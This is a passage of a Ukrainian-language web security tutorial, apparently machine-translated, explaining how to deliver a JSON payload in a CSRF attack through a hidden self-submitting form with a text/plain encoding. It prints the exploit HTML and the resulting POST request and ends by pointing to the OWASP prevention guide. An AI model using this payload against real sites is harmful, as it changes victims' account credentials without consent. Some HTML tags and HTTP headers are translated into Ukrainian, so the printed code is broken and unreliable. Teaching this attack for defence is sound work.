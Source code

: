 </body>
</html>
У випадку веб-додатків, у яких розробники використовують JSON для зв’язку між браузером і сервером, може виникнути проблема через відсутність параметрів запиту у форматі JSON, які є обов’язковими для форм, що надсилаються самостійно. Щоб обійти цей випадок, ми можемо використати форму самостійного надсилання з корисними навантаженнями JSON, включаючи приховані введення, для використання CSRF. Нам доведеться змінити тип кодування (enctype) на text/plain, щоб забезпечити доставку корисного навантаження як є. Код експлойта буде виглядати наступним чином:

<html>
 <тіло>
  <script>history.pushState('', '', '/')</script>
   <form action='http://victimsite.com' method='POST' enctype='text/plain'>
     <input type='hidden' name='{"name":"hacked","password":"hacked","padding":"'value='something"}' />
     <input type='submit' value='Submit request' />
   </form>
 </body>
</html>
Запит POST буде таким:

POST / HTTP/1.1
Хост:victimsite.com
Тип вмісту: текстовий/звичайний

{"name":"hacked","password":"hacked","padding":"=something"}
Коли ці дані надсилаються як запит POST, сервер із задоволенням прийме поля імені та пароля та проігнорує поле з доповненням імені, оскільки воно йому не потрібно.

## Санація
Щоб дізнатися про заходи профілактики, перегляньте шпаргалку з профілактики OWASP CSRF.

